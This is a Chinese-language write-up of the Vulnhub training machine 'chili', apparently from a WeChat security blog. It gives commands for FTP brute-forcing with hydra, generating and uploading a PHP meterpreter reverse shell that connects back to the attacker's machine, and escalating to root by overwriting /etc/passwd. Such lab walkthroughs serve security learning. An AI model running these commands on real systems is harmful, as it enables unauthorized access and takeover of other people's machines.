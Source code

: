 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ejHH1KH2cQUL5gAZiEuNjQ)

点击蓝字，关注我们

0x00 靶机信息

靶机：chili  

难度：简单

下载: https://www.vulnhub.com/entry/chili-1,558/

0x01 信息收集

扫描当前网段，确定目标靶机 IP

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunfIw0DVm5CibDaIibl3QGvCYMicH81x0MCjtoKMoVnjJyqegiaR4ZVAic9Jw/640?wx_fmt=png)

只开放了 80、21 端口，直接访问，扫目录一梭子

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzuniaKld98oEvibddW8Doo1hcVfpnqTDDw5SibnibWibghN3QB7SsQjZMI2u0w/640?wx_fmt=png)

网页 目录空空如也，这种情况一般就要看页面源码

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunibF0NAqf8FXKN6vOkRTjIy1rgJtCba9WsMYdLOWE2xtOZlETNgiaRF5g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunWOVIGHRrwtekOhksDibth6BBk9jK2jrvvK4jSVccK3NLSLmkqHYMrPQ/640?wx_fmt=png)

查看源码发现一些关键词

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunqiagsokWGMHpEYqsdicDVqVMHJnDonb4HZxpNBRMStLXNCMKx4mlggzA/640?wx_fmt=png)

直接爬取关键词生成字典，准备爆破 FTP 服务

```
Cewl http://192.168.12.128 > user.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunyMIw0Z0x5oaa32bO7g4BAQDxic8BfiaZvzfgVY0WlHFxHau2jcN8pIkQ/640?wx_fmt=png)

字典生成好了，直接开始爆破 FTP

```
hydra -L /root/user.txt -P /usr/share/wordlists/rockyou.txt -f -V ftp://192.168.12.128
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunElB3iaecKvOqjoSyE3T3eONMSuy19KibHSVyj1yjxl8Td1SChEc4ic8KQ/640?wx_fmt=png)

账号：chili

密码：a1b2c3d4

0x02 漏洞利用

先登入 FTP，成功登入 FTP

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunCeicv3nwj6MsibAAiayePmNEicicpATslxeib8skichONHGqgYgmA89uI1K2A/640?wx_fmt=png)

查看网站目录，看看文件和权限

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzun4LibjtYEWy50AgRSmGvoct55qUcDhFicyWvgvibMYTjtYwYRia2icuQ1suw/640?wx_fmt=png)

.nano 文件存在高权限，直接上 MSF 的 PHP 马

Msf 生成 php 马

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.12.130 LPORT=3388 -f raw > shell.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzuno4icaG0b3T0mWTsiaewsrmofnjDOMEo2jZpyOGdSnic0FT1eHVB0SxKqw/640?wx_fmt=png)

ftp 上传到. nano 设置 777 权限

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunz1QmWXK2KbV05r93xpHYWQBuUE9tMRW1DE9ib4v6tDTzLZzdJgtmf1w/640?wx_fmt=png)

Msf 开启监控，连接 php 马

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunbtwJhr8culqX0rIhmacPnhskDDXmLg4UicviazVBGRx58egZYuIRyfGg/640?wx_fmt=png)

0x03 提权

上传提权脚本并给 777 权限  

脚本：https://github.com/luke-goddard/enumy

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzun517G16y1zdEaSLYqV4OUpZmITMEl5SxMooTsIsJPkictiaSU62tiabASA/640?wx_fmt=png)

执行脚本

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunyI2Zpb88qUqamXWf5h231dChcFicAJV9fRNRicPpibeRofcKEPAMn9QRg/640?wx_fmt=png)

可写 passwd，构造 test 成高权用户

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunClA4qJ81HfVZLqoiay0nyqzjX6zMEPKXP9crKcumT4ic3ZWsCmwdujPA/640?wx_fmt=png)

```
/usr/bin/perl -le 'print crypt("test","test")'
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunypoZBRdicQIV2tEMXwvkNibQIarPib4XPKKsVILvOXp3RrAuuMCBEsLmg/640?wx_fmt=png)

```
echo "test:teH0wLIpW0gyQ:0:0:root:/root:/bin/bash" > /etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7CscVExGRTgYWwiaSVRM39wzunT1TcrkDehX4RCGg41Uwm3y8pXOCSYdLgxtbwfFKqoHcrH2ApH7iagvA/640?wx_fmt=png)

拿到 flag

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Cse7ScwpcZ0hYFNyAKSke4yDtZo2F6PWmVicuic2AWqOhAZTDChCHULs8kCwFBsCjp1zkicUUKibT9icgzw/640?wx_fmt=png)

往期推荐：

[Vulnhub 篇 Photographerr:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483673&idx=1&sn=c1f22eebcf5affb13ae324af7a030449&chksm=eb4ec8a4dc3941b21b2078a6e5d84462ac0ae5253b9176c12d9e3d53539ba27e2d8fbe36f85f&scene=21#wechat_redirect)  

[Vulnhub 篇 presidential:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483700&idx=1&sn=5a54f2be75bd9bdf0d3a84367ea8afb2&chksm=eb4ec889dc39419f55e446dafd3e5aa26379cbc24b048b3d7624a3fb510ad87847b828b6e1b4&scene=21#wechat_redirect)